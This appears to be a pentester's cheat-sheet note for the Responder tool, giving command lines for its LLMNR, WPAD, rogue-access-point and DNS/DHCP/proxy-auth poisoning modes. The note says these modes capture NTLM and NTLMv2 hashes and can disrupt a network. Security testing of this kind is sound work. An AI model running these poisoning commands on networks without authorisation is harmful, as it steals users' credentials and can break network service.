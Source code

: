 ```yaml
---
Name: Responder
Platform: Linux
tags:
  - Resources
  - infosec
---
```

GitHub: https://github.com/lgandx/Responder

------

Basics :

```
sudo responder -I <interface>
```

------

Analyze mode:

```
sudo responder -I <interface> -A
```

Analyze mode allows to observe what is going on <mark style="background: #FFB86CA6;">without poisoning anything</mark>.

------

Responder wpad:

```
sudo responder -I <interface> -wF
```

------

Responder on a rogue AP:

```
sudo responder -I <inteface> -dwP -vvv
```

This allows to get NTLM hash when connecting because of the Proxy Auth and poisoning the dns request with wpad.

------

Responder with DNS, DHCP, Proxy Auth, and analyze mode:

```
sudo responder -I <interface> -dDPA
```

This allows to get `NTLMv2` hashes via dns, dhcp, and proxy auth, but it can screw up the network if not done properly.

Example:

```
sudo python3 Responder.py -I enp0s31f6 -dDPA
```

------
